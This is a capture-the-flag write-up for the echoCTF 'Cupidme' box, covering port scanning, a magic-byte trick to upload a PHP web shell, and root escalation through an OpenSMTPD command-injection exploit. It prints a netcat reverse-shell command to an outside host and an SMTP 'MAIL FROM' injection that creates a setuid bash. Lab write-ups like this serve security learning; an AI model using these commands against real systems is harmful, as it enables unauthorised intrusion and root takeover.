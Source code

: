 ```yaml
---
layout: default
title : muzec - Cupidme - echoCTF.RED
---
```


```
TEE HEE HEE! Cupid, is an imaginary character. However, Cupid is not the only thing that is imaginary on this system (the box security is equally imaginary)...

Tickle cupid the right way and you'll be surprised.
```

### Enumeration With Nmap

`nmap -p- --min-rate 10000 -oA nmap/allports -v 10.0.30.187`

```
# Nmap 7.91 scan initiated Thu Dec  2 20:33:19 2021 as: nmap -p- --min-rate 10000 -oA nmap/allports -v 10.0.30.187
Increasing send delay for 10.0.30.187 from 80 to 160 due to 67 out of 222 dropped probes since last increase.
Increasing send delay for 10.0.30.187 from 160 to 320 due to 73 out of 242 dropped probes since last increase.
Increasing send delay for 10.0.30.187 from 320 to 640 due to 34 out of 111 dropped probes since last increase.
Warning: 10.0.30.187 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.0.30.187
Host is up (0.15s latency).
Not shown: 51513 filtered ports, 14021 closed ports
PORT   STATE SERVICE
80/tcp open  http

Read data files from: /usr/bin/../share/nmap
# Nmap done at Thu Dec  2 20:34:57 2021 -- 1 IP address (1 host up) scanned in 97.69 seconds
```

Scanning for full ports we know we have only one port open so let try some default and service detection switch on our nmap commands.

`nmap -sC -sV -oA nmap/normal -p 80 10.0.30.187`

```
# Nmap 7.91 scan initiated Thu Dec  2 20:38:46 2021 as: nmap -sC -sV -oA nmap/normal -p 80 10.0.30.187
Nmap scan report for 10.0.30.187
Host is up (0.17s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Welcome to Cupid's homepage

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Dec  2 20:38:58 2021 -- 1 IP address (1 host up) scanned in 12.04 seconds
```

We know we are hiting only HTTP port so let jump to it without wasting to much of time.

![image](https://user-images.githubusercontent.com/69868171/144709361-718cbed5-7689-4488-b33a-c83c4fd0aa93.png)

Interesting let check what we have in the source page.

![image](https://user-images.githubusercontent.com/69868171/144709419-39a06b64-8e9b-4e21-b10e-61fe39cf8931.png)

That is some good hidden form for uploading.

```
<form action="upload.php" method="post" enctype="multipart/form-data"> Select image to upload:<br/><input type="file" name="image" id="image"><input type="submit" value="Upload Image" name="submit"></form>
```

Now we know it hidden when not inspect the webpage and add the html code to make it visible to us.

![image](https://user-images.githubusercontent.com/69868171/144709682-ff23b85d-c358-4092-a6e7-5f6444a1afc9.png)

Now we are talking let try uploading a file `php or jpg` first using burp suite to intercept the request to see what is going on.

![image](https://user-images.githubusercontent.com/69868171/144709787-39432e94-f1f0-4426-8878-10a1c0f97872.png)

But seems we hit the rock let try changing `Content-Type: application/x-php` to `Content-Type: image/jpeg` let see what happened.

![image](https://user-images.githubusercontent.com/69868171/144709912-50e93ec6-250f-4531-b0cc-028341fe17bc.png)

Ahhh ok that the same error let try uploading a valid jpeg image to observe what happened.

![image](https://user-images.githubusercontent.com/69868171/144710011-0f557b1c-0bf3-409b-98e9-f2f9f0449d73.png)

Now that is a valid jpeg image but the issue is the size we can only upload `The maximum file size supported is 39 bytes` now it getting more interesting let try some tricks.

### Creating A JPEG File

```
┌──(muzec㉿Muzec-Security)-[~/Documents/echoctf/cupidme]
└─$ touch muzec.txt      
                                                                                                                                                                       
┌──(muzec㉿Muzec-Security)-[~/Documents/echoctf/cupidme]
└─$ echo -n -e '\xff\xd8\xff'>muzec.txt
                                                                                                                                                                       
┌──(muzec㉿Muzec-Security)-[~/Documents/echoctf/cupidme]
└─$ file muzec.txt  
muzec.txt: JPEG image data
                                                                                                                                                                       
┌──(muzec㉿Muzec-Security)-[~/Documents/echoctf/cupidme]
```

Now let try uploading it let see what happened.

![image](https://user-images.githubusercontent.com/69868171/144710205-58c0429a-a5c1-4909-b855-d1a13e2d8b22.png)

Boom so the extension does not really matter hehehehe now let create our payload.

```
┌──(muzec㉿Muzec-Security)-[~/Documents/echoctf/cupidme]
└─$ touch shell.php
                                                                                                                                                                       
┌──(muzec㉿Muzec-Security)-[~/Documents/echoctf/cupidme]
└─$ echo -n -e '\xff\xd8\xff'>shell.php
                                                                                                                                                                       
┌──(muzec㉿Muzec-Security)-[~/Documents/echoctf/cupidme]
└─$ file shell.php
shell.php: JPEG image data
```

![image](https://user-images.githubusercontent.com/69868171/144710402-38090405-e6d1-417c-af2e-116da21b4d18.png)

Now let confirm the the size hope is not over `39 bytes` .

![image](https://user-images.githubusercontent.com/69868171/144710441-68b17efd-fa10-42b7-8600-5d780036a986.png)

We are cool now let upload it.

![image](https://user-images.githubusercontent.com/69868171/144710488-2233b88a-f25b-467a-a83c-894aea8a49ba.png)

Boom uploaded and we have the path to access it let hit it.

![image](https://user-images.githubusercontent.com/69868171/144710526-45e3fd97-3bba-445a-95ed-32db18ffd978.png)

Now let add our command to execute a command.

![image](https://user-images.githubusercontent.com/69868171/144710557-48c1616f-0586-4a44-82a5-774c6d854e33.png)

Boom we are good let get a reverse shell back to our terminal.

![image](https://user-images.githubusercontent.com/69868171/144710627-3302eecc-d22c-4626-a2d2-0d77f75057a6.png)

I use python one liner reverse shell to get back shell back to our terminal.

![image](https://user-images.githubusercontent.com/69868171/144710739-54ce8dd2-d803-4953-b583-ef00a4438ded.png)

Now we are good let get root and we are done.

### Privilege Escalation

```
www-data@cupidme:/home/ETSCTF$ ss -tulpn
Netid                State                 Recv-Q                 Send-Q                                 Local Address:Port                                  Peer Address:Port                                                                                                                                                                                                              
udp                  UNCONN                0                      0                                         127.0.0.11:43308                                      0.0.0.0:*                                                                                                                                                                                                                 
tcp                  LISTEN                0                      128                                        127.0.0.1:9001                                       0.0.0.0:*                    users:(("ss",pid=2330,fd=5),("bash",pid=2241,fd=5),("python",pid=2240,fd=5),("sh",pid=2218,fd=5),("python",pid=2217,fd=5),("sh",pid=2216,fd=5))                                              
tcp                  LISTEN                0                      128                                          0.0.0.0:80                                         0.0.0.0:*                    users:(("nginx",pid=39,fd=6))                                                                                                                                                                
tcp                  LISTEN                0                      128                                       127.0.0.11:41975                                      0.0.0.0:*                                                                                                                                                                                                                 
tcp                  LISTEN                0                      5                                          127.0.0.1:25                                         0.0.0.0:*                                                                                                                                                                                                                 
```

Now seems we have a port running locally 25 SMTP let grab the banner with Ncat.

```
www-data@cupidme:/home/ETSCTF$ nc -vn 127.0.0.1 25
(UNKNOWN) [127.0.0.1] 25 (?) open
220 cupidme.echocity-f.com ESMTP OpenSMTPD
```

We are dealing with `OpenSMTPD` let check for some exploit.

![image](https://user-images.githubusercontent.com/69868171/144711018-f5fdb80d-259b-4db3-9b2d-e053e9502c16.png)

We found an exploit on exploit-db written in python3 so i download it and transfer it to my target.

```
www-data@cupidme:/tmp$ ls
47984.py
www-data@cupidme:/tmp$ chmod +x 47984.py
www-data@cupidme:/tmp$ python3 127.0.0.1 25 'nc -e /bin/sh 10.10.0.186 1337'
python3: can't open file '127.0.0.1': [Errno 2] No such file or directory
www-data@cupidme:/tmp$ python3 47984.py 127.0.0.1 25 'nc -e /bin/sh 10.10.0.186 1337'
[*] OpenSMTPD detected
[*] Connected, sending payload
[*] Payload sent
[*] Done
www-data@cupidme:/tmp$ 
```
Now let check our Ncat listener and boom we are root.

![image](https://user-images.githubusercontent.com/69868171/144711168-467d3601-6528-411c-8a21-42ba020cf7c5.png)

We are done and a quick way to root with using the python script exploit.

```
www-data@cupidme:/tmp$ nc -v localhost 25                                                                                                                         [1/1]
localhost [127.0.0.1] 25 (?) open                                                  
220 cupidme.echocity-f.com ESMTP OpenSMTPD
hello cupid                                                                        
500 5.5.1 Invalid command: Command unrecognized
HELO cupid                                                                         
250 cupidme.echocity-f.com Hello cupid [127.0.0.1], pleased to meet you
MAIL FROM:<;install -m 6755 /bin/bash /tmp/root;>
250 2.0.0 Ok  
RCPT TO:<root>                                                                     
250 2.1.5 Destination address valid: Recipient ok
DATA                                                                               
354 Enter mail, end with "." on a line by itself
.                                                                                  
250 2.0.0 19966164 Message accepted for delivery
QUIT         
221 2.0.0 Bye            
www-data@cupidme:/tmp$ ls
47984.py  root
www-data@cupidme:/tmp$ ./root -p
root-5.0# id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
root-5.0# 
```

We are done thanks for reading mate.

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>
